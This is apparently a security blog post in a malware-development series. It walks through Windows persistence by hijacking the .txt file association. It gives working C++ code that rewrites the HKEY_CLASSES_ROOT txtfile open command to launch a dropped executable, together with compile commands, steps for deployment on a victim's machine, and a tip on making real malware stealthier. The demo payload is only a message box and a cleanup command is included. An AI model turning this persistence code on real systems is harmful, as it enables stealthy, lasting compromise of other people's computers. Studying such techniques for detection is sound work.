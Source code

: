 ```yaml
---
title:  "Malware development: persistence - part 9. Default file extension hijacking. Simple C++ example."
date:   2022-08-26 01:00:00 +0300
header:
  teaser: "/assets/images/66/2022-08-29_02-25.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![pers](/assets/images/66/2022-08-29_02-25.png){:class="img-responsive"}    

This post is the result of self-researching one of the interesting malware persistence trick: hijacking default file extension.    

### default file association     

For example, when a `.txt` file is double-clicked, `notepad.exe` is used to open it.     

![pers](/assets/images/66/2022-08-29_02-17.png){:class="img-responsive"}    

Windows knows that it must use `notepad.exe` to access `.txt` files because the `.txt` extension (and many others) are mapped to applications that can open such files in the registry: `HKEY_CLASSES_ROOT`.

It is possible to hijacking a default file association to execute a malicious program.     

### practical example    

Let's go to hijack `.txt`. In this case, the `.txt` extension handler is specified in the registry key listed below:     

`HKEY_CLASSES_ROOT\txtfile\shell\open\command`    

Run command:    

```powershell
req query "HKCR\txtfile\shell\open\command" /s
```

![pers](/assets/images/66/2022-08-29_02-19.png){:class="img-responsive"}    

Then, create our "malicious" application:     

```cpp
/*
hack.cpp
evil app for windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

As you can see, the logic is pretty simple as usually: just pop-up `meow-meow` messagebox.    

At the next step, hijack the `.txt` file extension by modifying the value data of `\HKEY_CLASSES_ROOT\txtfile\shell\open\command` by this script:     

```cpp
/*
pers.cpp
windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // command for replace
  // "%SystemRoot%\\system32\\NOTEPAD.EXE %1"
  // malicious app
  const char* cmd = "Z:\\2022-08-26-malware-pers-9\\hack.exe";

  // hijacking logic
  LONG res = RegOpenKeyEx(HKEY_CLASSES_ROOT, (LPCSTR)"\\txtfile\\shell\\open\\command", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update key
    RegSetValueEx(hkey, (LPCSTR)"", 0, REG_SZ, (unsigned char*)cmd, strlen(cmd));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, in this source code we just replace `%SystemRoot%\system32\NOTEPAD.EXE %1` with `Z:\2022-08-26-malware-pers-9\hack.exe`.

### demo

Let's go to see everything in action. Compile our malware:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/66/2022-08-29_04-21.png){:class="img-responsive"}    

The generated `hack.exe` needs to be dropped into the victim’s machine.    

Then, compile the program responsible for persistence:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/66/2022-08-29_04-22.png){:class="img-responsive"}    

The generated `pers.exe` also needs to be dropped into the victim’s machine.     

Then just run:    

```powershell
.\pers.exe
```

![pers](/assets/images/66/2022-08-29_02-21.png){:class="img-responsive"}    

So, try to open `.txt` file, for example double-click `test.txt`:     

![pers](/assets/images/66/2022-08-29_02-22.png){:class="img-responsive"}    

![pers](/assets/images/66/2022-08-29_02-24.png){:class="img-responsive"}    

As you can see, the "malware" will be executed. Perfect! :)    

Then, cleanup:    

```powershell
reg add "HKEY_CLASSES_ROOT\txtfile\shell\open\command" /ve /t REG_SZ /d "%SystemRoot%\system32\NOTEPAD.EXE %1"
```

![pers](/assets/images/66/2022-08-29_02-34.png){:class="img-responsive"}    

It would be good practice to do this (in real malware) with little bit different logic so that the victim user will still be able to open the original `.txt` file, but he will additionally run the malicious activity.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.    

[MITRE ATT&CK: Change Default File Association](https://attack.mitre.org/techniques/T1546/001/)     
[SILENTTRINITY](https://attack.mitre.org/software/S0692/)     
[source code on Github](https://github.com/cocomelonc/2022-08-26-malware-pers-9)       

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
